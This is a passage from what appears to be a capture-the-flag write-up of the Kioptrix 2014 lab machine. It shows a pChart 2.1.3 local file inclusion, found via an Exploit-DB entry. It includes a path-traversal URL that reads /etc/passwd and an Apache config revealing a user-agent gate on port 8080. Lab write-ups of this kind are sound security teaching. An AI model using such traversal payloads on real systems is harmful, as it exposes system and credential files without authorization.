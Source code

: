 page source has some juciy info

**pChart 2.1.3**

We also get a URL to the app

![alt text]({{ site.baseurl }}/assets/images/kioptrix2014/2.png)

http://192.168.0.25/pChart2.1.3/examples/index.php


![alt text]({{ site.baseurl }}/assets/images/kioptrix2014/3.png)

### 8080 - HTTP

http://192.168.0.20:8080

![alt text]({{ site.baseurl }}/assets/images/kioptrix2014/4.png)

Cant access this. 

## Exploitation

### pChart- Local File Inclusion

Using **searchsploit** we find an exploit that looks usable for pChart

**Exploit Used:** https://www.exploit-db.com/exploits/31173/

There is a Local File Inclusion vulnerability which looks good to pull out.

 **/etc/passwd** 

http://192.168.0.25/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd

![alt text]({{ site.baseurl }}/assets/images/kioptrix2014/5.png)

at this point i was slowly running out of ideas here so did some google fu.

**httpd.conf** 


![alt text]({{ site.baseurl }}/assets/images/kioptrix2014/6.png)

At the bottom of the config we see some bits which suggests we need to change our user agent to connect on port **8080**

```bash
<VirtualHost *:8080>
    DocumentRoot /usr/local/www/apache22/data2

 <Directory "/usr/local/www/apache22/data2">
  Options Indexes FollowSymLinks
  AllowOverride All
  Order allow,deny
  Allow from env=Mozilla4_browser
 </Directory>

</VirtualHost>
```
